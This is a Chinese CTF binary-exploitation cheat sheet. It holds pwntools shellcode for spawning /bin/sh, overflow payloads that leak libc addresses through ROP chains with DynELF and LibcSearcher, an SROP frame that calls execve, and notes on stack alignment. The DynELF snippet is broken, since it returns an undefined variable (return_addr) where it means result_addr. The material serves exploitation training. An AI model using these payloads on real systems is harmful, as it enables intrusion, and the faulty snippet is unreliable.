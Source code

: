 # PWN题技巧总结

## 0x001-获取系统权限方式

### 编写shellcode

使用pwntools生成shellcode

```
context(arch='amd64', os='linux')
shellcode = asm(shellcraft.sh())
```

```
context(arch='i386', os='linux')
shellcode = asm(shellcraft.sh())
```

### 执行命令获取系统权限

1. system("/bin/sh")
2. system("sh")
3. system("$0")
4. execve("/bin/sh", 0, 0) # syscall rax=59

## 0x002-敏感函数

|  敏感函数  |  结束标志  |
|  :----:  | :----:  |
|  printf  |  \x00  |
|  scanf  |    |
|  puts  |    |
|  gets  |  \x0A  |
|  read  |    |
|  write  |    |
|  strcpy  |    |
|  strcmp  |  \x00  |
|  strlen  |  \x00  |

## 0x003-泄露libc地址

### DynELF

```
def leak(addr):
    payload = b"A" * 140 + p32(write_plt) + p32(main_addr) + p32(1) + p32(addr) + p32(4)
    p.sendline(payload)
    result_addr = p.recv(4)
    return return_addr

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
```

### LibcSearcher

```
payload = b"\x00" * 88 + p64(pop_rdi_ret) + p64(gets_got) + p64(puts_plt) + p64(main_addr)
p.sendline(payload)
gets_real_addr = u64(p.recv(6).ljust(8, b'\0'))
libc = LibcSearcher("gets", gets_real_addr)

libcbase = gets_real_addr - libc.dump("gets")
system_addr = libcbase + libc.dump("system")
bin_sh_addr = libcbase + libc.dump("str_bin_sh")
```

在使用LibcSearcher时，如果出现这种状况：

![](1.png)

则需要重新下载libc库。

安装步骤如下：

1. 进入LibcSearcher的安装目录中，执行命令删除libc-database目录
   ```
   rm -rf libc-database
   ```
2. 重新下载libc-database文件夹
   ```
   git clone https://github.com/niklasb/libc-database 
   或
   git clone git://github.com/niklasb/libc-database
   ```
3. 进入libc-database目录中，执行命令
   ```
   ./git ubuntu
   ```
4. 等待安装完成即可

## 0x004-构造SROP

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr
```

https://www.wangan.com/docs/1081

## 0x005-syscall和int 0x80

系统调用常见函数(64位系统)

|  系统调用号  |  函数  |
|  :----:  | :----:  |
|  0  |  read  |
|  1  |  write  |
|  15  |  rt_sigreturn  |
|  59  |  execve  |

https://blog.csdn.net/sinat_26227857/article/details/44244433

## 0x006-栈对齐

在ubuntu18以上的版本，64位程序中如果调用system("/bin/sh")，则需要考虑堆栈平衡问题。

因为在ubuntu18以上的版本，64位的程序中调用system函数时，有如下指令

![](2.png)

> movaps : 该指令必须16字节对齐，说明 **$rsp+0x40** 处的地址值必须是16的倍数

那么就需要在调用call system时，保证 **$rsp+0x40** 处的地址值是16的倍数，下图是没对齐的情况

![](3.png)
